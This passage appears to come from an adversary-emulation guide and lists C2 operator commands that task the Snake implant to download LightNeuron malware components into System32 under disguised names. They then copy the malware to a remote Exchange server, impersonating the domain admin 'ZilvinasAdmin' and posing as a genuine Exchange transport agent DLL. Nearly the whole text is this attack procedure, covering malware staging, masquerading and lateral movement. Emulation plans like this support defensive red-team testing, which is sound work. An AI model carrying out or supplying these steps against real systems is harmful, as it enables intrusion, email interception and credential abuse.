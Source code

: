 * From the Kali C2 lower terminal window, task Snake to download LightNeuron:

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "ln_transport_agent.dll", "dest":"C:\\Windows\\System32\\mtxconf.dll"}'
```

* Wait 1 minute and then task Snake to download the companion DLL for LightNeuron:

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "n_installer_aux.dll", "dest":"C:\\Windows\\System32\\mtxcli.dll"}'
```

* Wait 1 minute and then task Snake to download the Powershell installation script for LightNeuron.

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "msiex.ps1", "dest":"C:\\Windows\\System32\\msiex.ps1"}'
```

* Wait 1 minute and then task Snake to download the LightNeuron email rules file.

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "rules.xml", "dest":"C:\\Windows\\System32\\wdr.rules.xml"}'
```

* Wait 1 minute and then task Snake to download the LightNeuron config file.

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "winmail.dat", "dest":"C:\\Windows\\System32\\perfe009.dat"}'
```

* Wait 1 minute and then task Snake to copy LightNeuron, the rules config file, and the Powershell installation script to the remote target `drebule`, using token impersonation to perform the copy as `ZilvinasAdmin`.

```bash
# Copy LightNeuron
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\mtxconf.dll \"\\\\drebule\\C$\\Program Files\\Microsoft\\Exchange Server\\V15\\TransportRoles\\agents\\Hygiene\\Microsoft.Exchange.Transport.Agent.ConnectionFiltering.dll\"", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute before copying the next file:

```bash
# Copy LightNeuron companion DLL
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\mtxcli.dll \"\\\\drebule\\C$\\Program Files\\Microsoft\\Exchange Server\\v15\\bin\\exdbdata.dll\"", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute before copying the next file:

```bash
# Copy installation script
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\msiex.ps1 \\\\drebule\\C$\\Windows\\System32\\msiex.ps1", "runas": "nk\\zilvinasadmin"}'
```
